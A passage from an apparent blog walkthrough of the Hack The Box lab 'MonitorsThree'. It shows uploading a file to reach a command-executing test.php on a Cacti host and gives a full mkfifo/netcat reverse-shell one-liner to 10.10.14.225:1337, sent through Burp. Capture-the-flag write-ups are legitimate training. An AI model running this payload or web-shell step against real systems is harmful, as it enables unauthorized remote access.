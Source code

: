 
From Here we upload the test.xml.gz file generated and access the test.php at `http://cacti.monitorsthree.htb/cacti/resource/test.php?cmd`

![alt text](/assets/blog/HTB-MonitorsThree/rce_www-data.png)

Now lets get a real reverse shell, 
- Sending the reverse shell command through the cmd parameter `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.225 1337 >/tmp/f` we will url-encode this and send the request throught burp

![alt text](/assets/blog/HTB-MonitorsThree/burp.png)

![alt text](/assets/blog/HTB-MonitorsThree/reverse_shell.png)

Revshell confirmed !!

# Part 2: Lateral Movement & Privilege Escalation
